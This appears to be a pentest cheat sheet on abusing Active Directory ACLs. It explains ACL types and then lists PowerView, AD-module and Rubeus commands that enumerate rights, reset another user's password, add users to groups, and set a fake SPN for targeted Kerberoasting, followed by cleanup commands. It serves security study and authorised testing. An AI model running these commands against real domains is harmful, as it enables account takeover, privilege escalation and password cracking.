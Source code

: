 # Access Control List (ACL) Abuse

Access Control Lists (ACLs) define who has access to an asset/resource and the 
level of access they are granted. The specific settings within an ACL are known 
as Access Control Entries (ACEs). Each ACE maps to a security principal (user, 
group, or process) and specifies the rights granted. Every object in Active 
Directory (AD) has an ACL, which can contain multiple ACEs because multiple 
security principals can access AD objects. ACLs can also be used for auditing
access within AD.

## Types of ACLs

1. **Discretionary Access Control List (DACL)**: Defines which security principals are granted or
 denied access to an object. DACLs consist of ACEs that allow or deny access. If a DACL does not 
 exist for an object, all users are granted full rights. If a DACL exists but has no ACE entries, 
 access is denied to all.

2. **System Access Control List (SACL)**: Allows administrators to log access attempts to secured 
objects.

## Enumeration

### Using PowerView

```shell
# Import PowerView module
Import-Module .\PowerView.ps1
# Find interesting ACLs (may produce large output)
Find-InterestingDomainAcl
# Get objects a user has rights over
$sid = Convert-NameToSid <username>
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
# Get group information
Get-DomainGroup -Identity "<group_name>" | Select-Object memberof
# Get detailed group ACLs
$itgroupsid = Convert-NameToSid "<group_name>"
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

### Using AD Module

```shell
# Create a list of domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# Get ACL information for each user
foreach($line in [System.IO.File]::ReadLines("<path_to_users_file>")) {
    get-acl "AD:\$(Get-ADUser $line)" |
    Select-Object Path -ExpandProperty Access |
    Where-Object {$_.IdentityReference -match '<domain\\username>'}
}
```

- BloodHound can also be used for ACL enumeration.

## Abusing ACLs

### Required Rights for Abuse

### 1. Changing a User's Password
Requires `Reset Password` permission.

```shell
# Authenticate as a user (optional if already running in the user's context)
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain\\username>', $SecPassword)

# Change the user's password
Import-Module .\PowerView.ps1
$Password = ConvertTo-SecureString '<password>' -AsPlainText -Force
Set-DomainUserPassword -Identity <username> -AccountPassword $Password -Credential $Cred -Verbose
```

### 2. Adding a User to a Group
Requires `Write Member` or `Add Member` permission on the target group.

```shell
# List group members
Get-ADGroup -Identity "<group_name>" -Properties * | Select-Object -ExpandProperty Members

# Add a member to the group
Add-DomainGroupMember -Identity '<group_name>' -Members '<username>' -Credential <creds_of_user_with_permission> -Verbose
```

### 3. Targeted Kerberoasting
Requires `Write Property` or `GenericAll` permission to set a fake SPN.
```shell
# Create a fake SPN
Set-DomainObject -Credential <creds_of_user_with_permission> -Identity username1 -Set @{serviceprincipalname='notahacker/LEGIT'} -Verbose

# Perform Kerberoasting using Rubeus
.\Rubeus.exe kerberoast /user:username1 /nowrap
```

## Reversing the Changes

```shell
# Remove the fake SPN from the account
Set-DomainObject -Credential <creds_of_user_with_permission> -Identity username1 -Clear serviceprincipalname -Verbose

# Remove the user from the group
Remove-DomainGroupMember -Identity "<group_name>" -Members 'user' -Credential <creds_of_user_with_permission> -Verbose
```